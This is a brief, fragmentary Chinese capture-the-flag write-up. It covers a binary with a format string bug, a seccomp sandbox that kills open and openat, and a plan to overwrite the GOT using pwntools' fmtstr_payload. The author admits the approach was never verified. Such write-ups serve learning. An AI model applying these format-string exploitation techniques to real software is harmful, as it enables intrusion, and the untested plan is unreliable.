sub\_40CA00("%d %d", &v25, &v26, ...);   
然后这里是一个格式化字符串漏洞

然后我们进行测试

通过输出测试我们可以泄露了数据(没有canary直接打就好)

在stack上我们观察参数的位置,  


分析到了沙箱一查的话果然禁用了  
而且orw不可以

0009: if (A == open) -> KILL

0011: if (A == openat) -> KILL

Sendfile也没有办法直接使用,那么我们回过头来checksec一下  
  
那这里我们是打算直接用一个更换got表的办法来执行程序

不知道能否成功  
替换变量中的数值,使用fmtstr\_payload(offset, writes, numbwritten=0, write\_size=‘byte’)直接梭就好不知道能不能打出来,网上的思路看着挺唬人,不过这里我也是没有复现验证  
这道题是另一个师傅做的,我还是太菜了哈哈  

